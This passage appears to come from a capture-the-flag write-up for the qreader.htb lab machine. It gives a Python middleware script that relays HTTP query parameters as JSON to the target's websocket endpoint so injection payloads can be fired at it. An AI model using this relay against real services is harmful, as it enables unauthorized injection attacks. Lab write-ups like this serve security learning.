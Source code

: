 So lets enter the script and edit a couple of stuff.

```

from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://qreader.htb:5789/version" # enter the qreader.htb host with the ws port and the /version path.

def send_ws(payload):
	ws = create_connection(ws_server)

	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('\'','\\\"') # The escape that the blog suggested didn't so we needed to change payloads found that \" worked.
	data = '{"version":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass
```